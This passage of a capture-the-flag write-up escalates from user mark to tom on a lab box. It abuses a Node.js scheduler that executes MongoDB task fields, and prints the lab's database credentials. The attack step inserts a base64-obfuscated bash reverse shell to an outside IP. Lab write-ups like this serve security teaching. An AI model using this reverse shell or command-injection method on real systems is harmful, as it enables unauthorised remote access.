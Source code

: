 # User Escalation to tom user
We run `linpeas.sh` to find out that we have a `/var/scheduler` directory which is running another node application.
```js
mark@node:~$ cat /var/scheduler/app.js 
const exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);
```

It looks for any key of `cmd` in the database and executes the value in bash.
That, means we could login to that `collection` and create a key named `cmd` and inject a command as a key.

```js
mark@node:~$ mongo -u mark -p 5AYRft73VtFpc84k localhost/scheduler
MongoDB shell version: 3.2.16
connecting to: localhost/scheduler
> db.tasks.insert({cmd:"echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45Lzg4ODggMD4mMQ== |base64 -d|bash"})
WriteResult({ "nInserted" : 1 })
```

After, Waiting a couple of seconds we recieve a shell back as the user `tom`.
![[Pasted image 20210703231130.png]]
